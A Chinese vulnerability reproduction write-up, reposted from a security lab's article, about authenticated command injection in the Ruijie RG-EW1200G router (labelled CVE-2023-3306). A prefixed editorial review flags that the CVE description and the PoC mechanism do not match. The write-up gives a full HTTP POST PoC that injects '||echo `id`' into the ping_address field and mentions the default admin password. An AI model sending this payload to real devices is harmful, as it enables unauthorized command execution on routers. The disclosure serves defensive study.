




# RG-EW1200G 远程代码执行漏洞 (CVE-2023-3306)

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ruijie RG-EW1200G EW_3.0(1)B11P204
- 本文讨论：标题CVE-2023-3306；bf/ping命令注入与简介JS访问控制混杂
- 版本、权限与配置前提：明确高权限登录、bcrsession
- 资料类型：认证命令注入复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 简介把根因放app.hash.js访问控制，而PoC是服务器ping注入，CVE与机制映射需回源
- HTTP头体缺空行；固定长度与正文不清；宣称补丁已发但仅产品页无安全固件
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- CVE/JS/服务端注入关系、影响/修复版本待原始研究确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/N2WFXkEpbeFQ4wMrYJ0bMw)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**  

Ruijie Networks RG-EW1200G 是中国锐捷网络（Ruijie Networks）公司的一款无线路由器。

Ruijie Networks RG-EW1200G EW_3.0(1)B11P204 版本存在访问控制错误漏洞，该漏洞源于文件 app.09df2a9e44ab48766f5f.js 存在问题，会导致不正确的访问控制。


  

**0x02 影响版本**  

Ruijie Networks RG-EW1200G EW_3.0(1)B11P204 版本




  

**0x03 漏洞复现**  

  

1. 访问漏洞环境



**利用此漏洞需要高权限（默认密码 admin 登录）**

2. 对漏洞进行复现

 **POC （POST）**

     ||echo `id`

```http
POST /bf/ping HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Content-Length: 94
Accept: application/json, text/plain, */*
DNT: 1
User-Agent: Mozilla/5.0 (Macintosh; 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bcrsession=f1de195d123da1165b6278b453a7f74adb3d7589850f7ef07c931099e2f1e256eedb56bfe3ea
{"ping_address":"||echo `id`","ping_package_num":5,"ping_package_size":56,"is_first_req":true}

```

漏洞复现



前端  




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

该漏洞由于正常功能过滤不严格导致存在命令注入，并且需要高权限账号登录操作，建议修改登录密码为强口令，通过白名单控制访问原地址。  

```
https://cp.ruijiery.com/cp/ywl-ywlly-ywg/ew1200g

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
